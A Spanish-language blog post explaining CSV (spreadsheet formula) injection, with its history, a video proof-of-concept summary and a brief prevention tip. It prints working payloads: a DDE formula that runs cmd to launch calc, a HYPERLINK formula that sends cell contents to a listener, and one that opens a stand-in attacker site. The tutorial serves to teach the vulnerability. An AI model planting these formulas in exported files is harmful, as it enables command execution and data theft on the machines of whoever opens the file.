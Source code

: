 ```yaml
---
layout: post
title: Inyección de CSV 
category: Hacking
comments: true
description: La inyección de CSV es un tipo de ataque que fue descubierto por primera vez en 2014, consiste en que el atacante introduce codigo malicioso en formularios que luego seran descargados en excel o csv. El ataque va dirigido a quien se descarga el fichero, normalmente es un ataque que no se suele tener en cuenta, por ejemplo el programa de Bug hunting de Google no lo considera como una vulnerabilidad que entre dentro de su programa de recompensas.
tags:   

    - owasp
    - injection

---
```


La inyección de CSV es un tipo de ataque que fue descubierto por primera vez en [2014](https://www.contextis.com/blog/comma-separated-vulnerabilities){:target="_blank"}, consiste en que el atacante introduce codigo malicioso en formularios que luego seran descargados en excel o csv. El ataque va dirigido a quien se descarga el fichero, normalmente es un ataque que no se suele tener en cuenta, por ejemplo el programa de [Bug hunting de Google](https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection){:target="_blank"} no lo considera como una vulnerabilidad que entre dentro de su programa de recompensas, aún asi es un tipo de ataque peligroso y a tener en cuenta.

## Ataque básico

Existen muchos tipos de payload para la inyección de CSV, pero el más común seria este:

{% highlight sql linenos %}

=cmd|' /C calc'!A0

{% endhighlight %}

Lo que hace este payload es ejecutar el programa cmd.exe lanzando la calculadora. En este caso es bastante simple, ya que es una calculadora, pero nos abre las puerta a poder ejecutar cualquier otra aplicación o comando con los permisos del usuario que abra el reporte en ese momento.


## Formulas peligrosas

La gran mayoria de payloads se basaran usando estas dos formulas principales:

* Hiperlink (en español Hipervinculo) esta formula crea un link directo a un recurso, sea de la maquina, de la red o de internet. 

{% highlight sql linenos %}

=HYPERLINK(“http://localhost:4444?leak=”&B2&B3&C2&C3,”más detalles”)

{% endhighlight %}

* Cmd, con este comando, tenemos la posibilidad de ejecutar comandos en el ordenador del usuario del Excel, generalmente el Office, OpenOffice y otros avisan al usuario que hay macros y scripts peligrosos, pero si el usuario ignora estos avisos, puede llegar a comprometer todo el sistema.

{% highlight sql linenos %}

=cmd|' /C explorer http://evilsite.com '!A0

{% endhighlight %}


## Prueba de Concepto

Como una imagen vale más que mil palabras, no hay nada mejor que un este video de youtube donde podrás ver una prueba de concepto de una inyección de CSV. 


<iframe width="560" height="315" src="https://www.youtube.com/embed/SC7AkclnG2g?rel=0" frameborder="0" allowfullscreen></iframe>

Resumen del video:

* Tenemos una pagina web asociada con Piwik (un estilo google Analitycs)
* A través de la url hacemos peticiones web erroneas incluyendo un payload de inyección de csv
* Luego accedemos a la cuenta de Piwik donde descargamos las ultimas visitas a nuestra pagina web
* Abrimos el reporte descargado tanto en Office como en OpenOffice y nos salta la calculadora.


## Prevención

Todos los programas estilo Excel, sea el Google Sheet, el Open Office y el propio Excel ejecutan cualquier cosa que parezca una formula, por lo que es un problema complicado de solucionar, ya que para las empresas detras de este software con avisar y decir que hay una macro y mejor deshabilitarlo ya esta, creo que es un enfoque incorrecto, porque muchos Excels, se usan para compartir información entre aplicaciones, por lo que puedes llegar a provocar un problema peor.

Aun asi, en foros como stackoverflow recomiendan poner un espacio o una comilla delante de cualquier = para asi deshabilitar la ejecucion de formulas automaticamente.




